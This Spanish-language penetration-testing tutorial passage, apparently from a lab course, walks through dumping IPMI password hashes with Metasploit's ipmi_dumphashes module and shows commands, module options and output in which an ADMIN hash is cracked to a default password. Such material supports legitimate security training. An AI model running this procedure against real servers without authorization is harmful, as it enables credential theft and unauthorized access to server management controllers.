 ### Extracción de Hashes con Metasploit

Para recuperar hashes IPMI, podemos usar el módulo de Metasploit `IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval`.

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
```

**Opciones del Módulo**

```
Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
```

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

**Resultado de la Extracción**

```
[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Aquí podemos ver que hemos obtenido exitosamente el hash de la contraseña para el usuario ADMIN, y la herramienta pudo descifrarlo rápidamente para revelar lo que parece ser una contraseña predeterminada ADMIN. Desde aquí, podríamos intentar iniciar sesión en el BMC, o, si la contraseña fuera algo más única, verificar la reutilización de contraseñas en otros sistemas. IPMI es muy común en entornos de red ya que los administradores necesitan poder acceder a los servidores de forma remota en caso de una falla o realizar ciertas tareas de mantenimiento que tradicionalmente tendrían que completar físicamente frente al servidor. Esta facilidad de administración viene con el riesgo de exponer hashes de contraseñas a cualquier persona en la red y puede llevar a accesos no autorizados, interrupción del sistema e incluso ejecución remota de código. Verificar IPMI debe ser parte de nuestro libro de jugadas de pruebas de penetración internas para cualquier entorno que evaluemos.

